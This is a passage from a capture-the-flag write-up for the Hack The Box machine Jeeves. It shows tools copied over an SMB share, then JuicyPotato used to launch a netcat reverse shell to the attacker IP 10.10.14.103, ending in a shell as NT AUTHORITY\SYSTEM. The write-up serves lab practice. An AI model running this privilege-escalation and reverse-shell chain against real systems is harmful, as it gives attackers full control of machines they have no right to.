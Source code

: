 ```
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed


```
Now we can create a share on Windows and copy the files we need to gain more privileges on the target.
```
C:\Users\kohsuke\Desktop>net use \\10.10.14.103\share
net use \\10.10.14.103\share
The command completed successfully.

C:\Users\kohsuke\Desktop>copy \\10.10.14.103\share\JuicyPotato.exe C:\Users\kohsuke\Desktop\JuicyPotato.exe
copy \\10.10.14.103\share\JuicyPotato.exe C:\Users\kohsuke\Desktop\JuicyPotato.exe
        1 file(s) copied.

C:\Users\kohsuke\Desktop>copy \\10.10.14.103\share\nc.exe C:\Users\kohsuke\Desktop\nc.exe
copy \\10.10.14.103\share\nc.exe C:\Users\kohsuke\Desktop\nc.exe
        1 file(s) copied.

```
With the following command we can create a reverse shell.
```
JuicyPotato.exe -l 1337 -t * -p C:\Windows\System32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.103 9876"
```
We should start a new netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ rlwrap nc -lvnp 9876
listening on [any] 9876 ...

```

## Privilege escalation
We should enter the command for privilege escalation. This creates a reverse shell to our machine as `nt authority\system`.
```
C:\Users\kohsuke\Desktop>JuicyPotato.exe -l 1337 -t * -p C:\Windows\System32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.103 9876"
JuicyPotato.exe -l 1337 -t * -p C:\Windows\System32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.103 9876"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```
We should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ rlwrap nc -lvnp 9876
listening on [any] 9876 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.228.112] 49690
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```